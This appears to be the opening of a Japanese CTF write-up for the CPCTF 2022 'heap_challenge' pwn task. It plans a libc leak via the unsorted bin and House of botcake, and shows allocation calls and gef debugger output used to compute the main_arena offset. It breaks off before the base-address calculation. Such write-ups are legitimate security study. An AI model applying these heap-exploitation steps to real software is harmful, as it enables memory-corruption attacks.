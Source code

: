 ```yaml
---
title: "heap_challenge - CPCTF 2022"
date: 2022-05-08T21:40:32+09:00
tags: ["pwn", "CPCTF"]
draft: false
---
```


# 方針
unsorted binによるlibc leakと、House of botcake

## 事前準備
```python
# def new(index: str, msg: str, content: bytes)
new("0", "16", b"AAAA")
new("1", "1280", b"BBBB")
new("2", "16", b"CCCC")
new("3", "16", b"DDDD")
new("4", "16", b"EEEE")
new("5", "16", b"FFFF")
```

## unsorted binによるlibc leakの旅

unsorted binの`fd`は、`main_arena.top`を指す。

`top`メンバの位置と、libcの中に置かれる`main_arena`の位置がわかれば、libc base addressを求めることができる。

（一度mallocしないとtopにアドレスが入らないので、そこまで進める。）

```none
gef➤  heap arena
Arena (base=0x7ffff7fc1b80, top=0x55555555b2d0, last_remainder=0x0, next=0x7ffff7fc1b80, next_free=0x0, system_mem=0x21000)
```

次に、libcの配置されている場所は`0x00007ffff7dd5000`である。

```none
gef➤  vm
:
0x00007ffff7dd5000 0x00007ffff7df7000 0x0000000000000000 r-- /ctf/yu1hpa/2022/CPCTF/heap_chal/libc.so.6
```

したがって、`main_arena`とのオフセットは、
```none
0x7ffff7fc1b80 - 0x00007ffff7dd5000 = 0x1ecb80
```

また、`top`メンバの位置は次のように確認することができる。
```none
gef➤  x/16xg 0x7ffff7fc1b80
0x7ffff7fc1b80: 0x0000000000000000      0x0000000000000000
0x7ffff7fc1b90: 0x0000000000000000      0x0000000000000000
0x7ffff7fc1ba0: 0x0000000000000000      0x0000000000000000
0x7ffff7fc1bb0: 0x0000000000000000      0x0000000000000000
0x7ffff7fc1bc0: 0x0000000000000000      0x0000000000000000
0x7ffff7fc1bd0: 0x0000000000000000      0x0000000000000000
0x7ffff7fc1be0: 0x000055555555b2d0      0x0000000000000000
0x7ffff7fc1bf0: 0x00007ffff7fc1be0      0x00007ffff7fc1be0
```
`top=0x55555555b2d0`は`main_arena(0x7ffff7fc1b80)`<+96> の位置にあることがわかるので、libc base addressは以下のように求まる。
